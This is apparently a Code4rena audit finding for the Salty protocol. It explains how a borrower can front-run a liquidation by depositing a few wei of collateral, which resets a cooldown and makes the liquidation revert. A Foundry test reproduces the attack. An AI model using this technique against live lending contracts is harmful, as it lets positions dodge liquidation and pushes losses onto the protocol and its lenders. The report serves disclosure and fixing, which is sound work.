 
____________________________________
# [H-01] - A user can prevent being liquidated by adding few wei of collateral just before liquidator call

https://github.com/code-423n4/2024-01-salty/blob/main/src/staking/StakingRewards.sol#L107


## Vulnerability details

Alice can front-run a liquidator call `liquidate(alice)` by calling `depositCollateralAndIncreaseShare` with a value > DUST and DoS/prevent its liquidation, [as liquidate](https://github.com/code-423n4/2024-01-salty/blob/main/src/stable/CollateralAndLiquidity.sol#L154) is limited [by `cooldownExpiration` in `_decreaseUserShare`](https://github.com/code-423n4/2024-01-salty/blob/main/src/staking/StakingRewards.sol#L107)

Why? 

1) every time `_increaseUserShare` or `_decreaseUserShare` is called with `useCooldown = true`, a cooldown is set to `block.timestamp + modificationCooldown`. This cooldown will prevent any calls to these functions (if `useCooldown = true`) until the time has passed
2) Because `depositCollateralAndIncreaseShare` (which calls `_depositLiquidityAndIncreaseShare`, itself calling `_increaseUserShare` with `useCooldown == true`) increase the cooldown
3) And `liquidate(alice)` also calls `_decreaseUserShare(alice,...)` with `useCooldown = true` in the same block, the cooldown will not be expired, causing the call to revert

## Impact
A malicious user can keep its position unhealthy by preventing liquidations

## Proof of Concept

```solidity
	function test_auditPreventLiquidationByAddingCollateral() public {
		
		// Bob deposits collateral so alice can be liquidated
        vm.startPrank(bob);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(bob), weth.balanceOf(bob), 0, block.timestamp, false );
		vm.stopPrank();


        // Deposit and borrow from Alice's account to create basis for liquidation
        _depositCollateralAndBorrowMax(alice);

        // Cause a drastic price drop to allow for liquidation
        _crashCollateralPrice();

        vm.expectRevert("Must wait for the cooldown to expire");
        collateralAndLiquidity.liquidateUser(alice);

        // Warp past the lockout period, so liquidation is now allowed
        vm.warp(block.timestamp + 1 hours); // warp to just after the lockout period

		//alice add few wai of liquidity, which do not recover her health factor
		deal(address(wbtc), alice, 101);
		deal(address(weth), alice, 101);
		vm.prank(alice);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(101, 101, 0, block.timestamp, false );

        vm.expectRevert("Must wait for the cooldown to expire");
        collateralAndLiquidity.liquidateUser(alice);
    }
```